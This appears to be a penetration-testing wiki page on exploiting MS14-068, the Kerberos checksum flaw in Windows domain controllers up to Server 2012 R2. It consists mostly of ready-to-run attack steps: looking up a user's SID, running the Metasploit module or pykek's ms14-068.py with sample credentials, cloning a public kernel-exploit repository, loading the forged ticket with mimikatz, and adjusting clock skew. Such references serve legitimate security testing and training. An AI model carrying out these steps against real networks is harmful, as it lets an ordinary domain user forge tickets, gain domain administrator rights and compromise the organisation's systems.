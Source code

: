 # Kerberos Checksum Validation ( MS14-068 )

{% embed url="https://github.com/gentilkiwi/kekeo/wiki/ms14068" %}

The vulnerability patches an issue with how the Domain Controller validates group membership in Kerberos tickets (hint: the ticket is always validated by the DC if the checksum is set to certain values). Microsoft KB3011780 patches this issue.

{% hint style="info" %}
This vulnerability will impact the windows server versions up to windows server 2012 R2.
{% endhint %}

#### This exploit require to know the user SID, you can use `rpcclient` to remotely get it or `wmi` if you have an access on the machine.

## Finding SID

to find the SID remotely:

```
rpcclient $> lookupnames john.smith
```

convert SID to username:

```
([System.Security.Principal.SecurityIdentifier]('PUT-SID-HERE')).Translate([System.Security.Principal.NTAccount]).Value
```

convert username to SID:

```
([System.Security.Principal.NTAccount]("domain\john.smith")).Translate([System.Security.Principal.SecurityIdentifier]).Value
```

to find SID locally:

```
wmic useraccount get name,sid
Convert-NameToSid high-sec-corp.localkrbtgt (powerview)
```

## Generating Ticket

can use pykek or metasploit:

```
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```
git clone https://github.com/SecWiki/windows-kernel-exploits

python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
```

## Loading the Ticket

Use `mimikatz` to load the ticket.

```
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

If the clock is skewed use `clock-skew.nse` script from `nmap`

```
Linux> $ nmap -sV -sC 10.10.10.10
clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s

Linux> sudo date -s "14 APR 2015 18:25:16" 
Windows> net time /domain /set
```
